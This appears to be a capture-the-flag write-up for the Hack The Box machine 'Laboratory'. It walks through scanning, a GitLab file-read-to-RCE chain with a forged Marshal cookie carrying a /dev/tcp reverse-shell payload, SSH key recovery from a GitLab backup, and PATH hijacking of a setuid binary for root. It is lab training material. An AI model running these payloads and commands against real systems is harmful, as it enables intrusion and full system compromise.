

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.205 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T2 -oA scans/nmap.full 10.10.10.205`

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.216 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.216`
```diff
PORT    STATE SERVICE  VERSION
+ 22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
+ 80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
+ 443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=laboratory.htb
- Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
```

* __Port_80__ redirect to `https://laboratory.htb/`
* there is also a __[Subject Alternative Name](https://www.digicert.com/faq/subject-alternative-name.htm): DNS :__ `git.laboratory.htb`
* add both in `/etc/hosts` file
* __Nothing__ in the `https://laboratory.htb/`
* `git.laboratory.htb` is a GitLab Instance.
* `git.laboratory.htb` redirected to `https://git.laboratory.htb/users/sign_in`

## Gobuster

* running Gobuster on git -
	
	`gobuster dir -u https://git.laboratory.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -k --wildcard -s 200`

	  /robots.txt (Status: 200)

* found `robots.txt`
  * __robots.txt__ has some  `Disallow` directory
  * there is only one `allow` dir

		  Allow: /users/sign_in

* and the only allowed dir is `/users/sign_in` where `https://git.laboratory.htb` is redirected.

* __Goto: sign_in__ page there is a register option to create a gitlab account, create a new account and login.

## Gitlab

running version on the server __GitLab Community Edition 12.8.1__

__vulnerability :__ upto GitLab version <12.9.1 is vulnerable for __Arbitrary file read (Path Traversal) to RCE exploit__ by *getting `secret_key_base` from GitLab Instance using AFR and generate malicious payload cookie to get reverse shell*

__source of complete explotation :__ https://hackerone.com/reports/827052

# User Exploit

## Exploiting Gitlab

* Arbitrary file read via the `UploadsRewriter` when moving and issue

  * Steps to reproduce
    * Create two projects
    * Add an issue with the following description:
	
	      
    * Move the issue to the second project
    * The file will have been copied to the project


__secret_key_base :__ `3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3`

* generate malicious payload cookie

*for generating malicious payload cookie we need to create local GitLab Instance and change Instance's `secret_key_base` with that server's key in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file and then run the ruby snippet from the report in a gitlab-rails console to generate cookie.*

* setup GitLab Instance

  * pull and run

	    export GITLAB_HOME=/srv/gitlab

		sudo docker run --detach \
		  --hostname gitlab.x00tex.com \
		  --publish 443:443 --publish 80:80 --publish 22:22 \
		  --name gitlab \
		  --restart always \
		  --volume $GITLAB_HOME/config:/etc/gitlab \
		  --volume $GITLAB_HOME/logs:/var/log/gitlab \
		  --volume $GITLAB_HOME/data:/var/opt/gitlab \
		  gitlab/gitlab-ce:12.8.1-ce.0

	    sudo docker exec -it gitlab /bin/bash

    * start run and stop gitlab 
	      
	      sudo docker start gitlab
	      sudo docker exec -it gitlab /bin/bash
	      sudo docker stop gitlab

  * Edit `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file and change `secret_key_base` with box key.
  * open rails console

		gitlab-rails console
	    
* generating cookie

	  request = ActionDispatch::Request.new(Rails.application.env_config)
	  request.env["action_dispatch.cookies_serializer"] = :marshal
	  cookies = request.cookie_jar
	  erb = ERB.new("<%= `/bin/bash -c 'bash -i >& /dev/tcp/tun0/4141 0>&1'` %>")
	  depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@Result", ActiveSupport::Deprecation.new)
	  cookies.signed[:cookie] = depr
	  puts cookies[:cookie]


* send cookie to the server:

	  curl -k -vvv 'https://git.laboratory.htb/users/sign_in/' -b "experimentation_subject_id=<COOKIE>"


## User esclate

* user git home is `/var/opt/gitlab` and there is a backups folder -
```diff
(remote) git@git.laboratory.htb:/$ cd
(remote) git@git.laboratory.htb:/var/opt/gitlab$ ls -la
total 96
drwxr-xr-x 20 root              root       4096 Dec  3 06:17 .
drwxr-xr-x  1 root              root       4096 Feb 24  2020 ..
+drwx------ 4 git               root       4096 Dec  3 11:00 backups
```
* in gitlab there is a gitlab-backup util -
```
(remote) git@git.laboratory.htb:/var/opt/gitlab$ gitlab-backup --help
Usage: gitlab-backup COMMAND [OPTIONS]

OPTIONS:

  -h, --help    Display this help message and exits. Use `COMMAND --help`
                for more information on a command.

COMMANDS:
  create        Creates a new backup.
  restore       Restores from a backup.
```
* if we run `gitlab-backup` in the terminal it backups complete gitlab instance and save in the backups folder and as a i am a user git i can run that command and then i can see that dexter repo that i seen in the gitlab.
* running `gitlab-backup`

  

* after command execute, get a `1606995456_2020_12_03_12.8.1_gitlab_backup.tar` archive

	  (remote) git@git.laboratory.htb:/var/opt/gitlab/backups$ ls -la
	  total 15272
	  drwx------  2 git  root    4096 Dec  3 11:37 .
	  drwxr-xr-x 20 root root    4096 Dec  3 06:17 ..
	  -rw-------  1 git  git  7813120 Dec  3 11:20 1606994436_2020_12_03_12.8.1_gitlab_backup.tar

		... [snip] ... #Download in local machine

	  ❯ tar -xf 1606995456_2020_12_03_12.8.1_gitlab_backup.tar --directory gitlab_backup
	  ❯ tree -a gitlab_backup
	  gitlab_backup
	  ├── artifacts.tar.gz
	  ├── backup_information.yml
	  ├── builds.tar.gz
	  ├── db
	  │   └── database.sql.gz
	  ├── lfs.tar.gz
	  ├── pages.tar.gz
	  ├── repositories
	  │   └── @hashed
	  │       ├── 19
	  │       │   └── 58
	  │       │       ├── 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
	  |		  │       └── 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
	  │       └── 2c
	  │           └── 62
	  │               ├── 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
	  |               └── 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
	  └── uploads.tar.gz

* there are bunch of files with 2 gitlab repos and while i run the `gitlab-backup` command i see that it backup to dexter repos from gitlab -

	  * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
	  * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]

* after git clone both bundle files -

	  ❯ git clone 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
	  Cloning into '19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7'...
	  Receiving objects: 100% (10/10), done.

	  ❯ git clone 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
	  Cloning into '2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3'...
	  Receiving objects: 100% (66/66), 7.21 MiB | 75.37 MiB/s, done.
	  Resolving deltas: 100% (5/5), done.

* when tree the cloned dirs i found ssh folder inside dexter dir -
```diff
❯ tree -a @hashed
@hashed
├── 19
│   └── 58
│       ├── 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
│       │   ├── create_gitlab.sh
│       │   ├── dexter
│       │   │   ├── recipe.url
│       │   │   ├── .ssh
│       │   │   │   ├── authorized_keys
+       │   │   │   └── id_rsa
<snippet>
52 directories, 112 files
```
* find dexter ssh key

## ssh USER:dexter
```diff
❯ pwncat -i ./id_rsa dexter@10.10.10.216
[23:43:42] warning: 10.10.10.216: no working persistence methods found                                                                                                        connect.py:222
[23:43:53] new host w/ hash ae368be9697cee6ab2cd4190bba7e71b                                                                                                                   victim.py:321
[23:44:12] pwncat running in /usr/bin/bash                                                                                                                                     victim.py:354
[23:44:18] pwncat is ready 🐈                                                                                                                                                  victim.py:771
[23:44:27] user not found in database; not storing password                                                                                                                   connect.py:348
(remote) dexter@laboratory:/$ id
+uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
(remote) dexter@laboratory:/$ cd
+(remote) dexter@laboratory:/home/dexter$ cat user.txt
23fa0c2d************************
```

# Privesc Enumeration

* after running linpeas and pwncat `enumerate.gather` i only notice `/usr/local/bin/docker-security` binary -
```diff
-rwsr-xr-x 1 root   dexter           17K Aug 28 14:52 /usr/local/bin/docker-security
```

* this is a linux binary file, i use `ltrace` to see its function before doing any reversing -

	  (remote) dexter@laboratory:/usr/local/bin$ ls -lsh
	  total 20K
	  20K -rwsr-xr-x 1 root dexter 17K Aug 28 14:52 docker-security

	  (remote) dexter@laboratory:/usr/local/bin$ file docker-security
	  docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped

```diff
(remote) dexter@laboratory:/usr/local/bin$ ltrace docker-security
 .setuid(0)                                                                                                           = -1
 setgid(0)                                                                                                           = -1
+system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
 --- SIGCHLD (Child exited) ---
 <... system resumed> )                                                                                              = 256
+system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
 --- SIGCHLD (Child exited) ---
 <... system resumed> )                                                                                              = 256
 +++ exited (status 0) +++
```

* download binary in my local machine and open it in __ghidra__ and view the main function -

	  void main(void)

	  {
	  setuid(0);
	  setgid(0);
	  system("chmod 700 /usr/bin/docker");
	  system("chmod 660 /var/run/docker.sock");
	  return;
	  }

  * in the main function its running `chmod` but without specifing it's absolute path and use `$PATH` variable to determine it's path and here __path hijacking__ vulnerbility comes into play.

# Root Exploit

## Path hijacking

* __Referense:__ hackingarticles.in [article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

* a simple bash script

	  ❯ cat scrp.sh
	  cd /tmp
	  echo "/bin/bash" > chmod
	  chmod +x chmod
	  echo $PATH
	  export PATH=/tmp:$PATH
	  cd /usr/local/bin
	  ./docker-security

* run that script and simply get the root shell -

	  (remote) dexter@laboratory:/home/dexter$ bash scrp.sh
	  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
	  root@laboratory:/usr/local/bin# id 
	  uid=0(root) gid=0(root) groups=0(root),1000(dexter)
	  root@laboratory:/usr/local/bin# cd /root
	  root@laboratory:/root# cat root.txt
	  229dd8c7************************